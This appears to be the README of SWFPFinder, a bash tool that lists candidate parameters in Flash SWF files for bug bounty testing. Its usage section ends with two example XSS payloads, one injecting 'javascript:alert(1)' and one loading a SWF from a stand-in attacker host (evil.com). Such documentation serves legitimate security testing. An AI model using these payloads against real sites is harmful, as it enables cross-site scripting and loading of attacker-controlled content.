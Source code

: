 ### SWFPFinder (beta v.)

SWFPFinder is a simple and open source bash script designed to discovery the potential swf (file) parameters on the webapp analysing the swf file. SWFPFinder use `swfmill` tool, [swfmill](https://github.com/djcsdy/swfmill) is a tool to process Adobe Flash (SWF) files. It can convert SWF from and to an XML dialect called “swfml”, which is closely modeled after the SWF file format.

Install
--

```
$ wget https://raw.githubusercontent.com/m4ll0k/SWFPFinder/master/swfpfinder.sh

or 

$ git clone https://github.com/m4ll0k/SWFPFinder.git swfpfinder
$ cd swfpfinder
```

Support Platforms
--

- MacOSx
- Linux
- Window (Cygwin)

Requirements
--
- [swfmill](https://github.com/djcsdy/swfmill)
   - for linux `apt-get install swfmill`
   - for macosx `brew install swfmill`

Usage
--
-  this tool you can use it during bug hunting for find a potential swf parameters..

```shell
$ bash swfpfinder.sh https://hackerone-target.com/hackme.swf

load_external-swf-file
inject-me
blabla
```
- after find potential parameters: 

`https://hackerone-target.com/hackme.swf?inject-me=javascript:alert(1)`

`https://hackerone-target.com/hackme.swf?load_external-swf-file=https://www.evil.com/xss.swf`


